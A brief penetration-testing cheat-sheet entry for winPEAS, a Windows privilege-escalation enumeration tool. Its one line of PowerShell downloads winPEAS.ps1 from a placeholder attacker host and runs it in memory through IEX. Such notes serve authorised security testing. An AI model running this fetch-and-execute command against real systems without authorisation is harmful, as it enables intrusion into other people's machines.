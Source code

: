 # winpeas

#plateform/windows #target/local #cat/RECON #tag/powershell

## oneliner
```powershell
(new-object system.net.webclient).downloadstring('http://<local_ip>:<port|80>/<dl_winpeas_path>winPEAS.ps1') | IEX
```
= dl_winpeas_path: windows/